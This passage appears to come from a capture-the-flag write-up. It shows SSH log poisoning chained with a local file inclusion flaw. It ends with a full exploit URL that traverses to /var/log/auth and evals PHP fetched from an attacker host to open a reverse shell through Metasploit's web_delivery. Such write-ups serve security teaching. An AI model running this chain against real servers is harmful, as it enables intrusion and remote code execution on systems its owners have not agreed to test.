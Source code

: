   ![](/assets/images/cocon-xii-ctf/greenland_lfi.png)
  
  var/log/auth is the error log for ssh connections so if we can make an error in connecting ssh that would get stored in this file which when included it gets executed. Inorder to execute commands we need to use our php code as the username for an ssh connection.
  
   ![](/assets/images/cocon-xii-ctf/greenland_ssh.png)
   
   Now include the auth file and the php code gets executed
   
   ![](/assets/images/cocon-xii-ctf/greenland_exec.png)
   
   Because SSH usernames has a length restriction we cannot execute code directly so we need something small.
   
```
To get a reverse shell we can use metasploit's web_delivery module
   
https://furniture-shop.domectf.in/dashboard/examples/profile.php?name=../../../../../../../../../var/log/auth&c=php -d allow_url_fopen=true -r "eval(file_get_contents('http://ipaddr:8080/uqB7NiEfaNe'));"
```
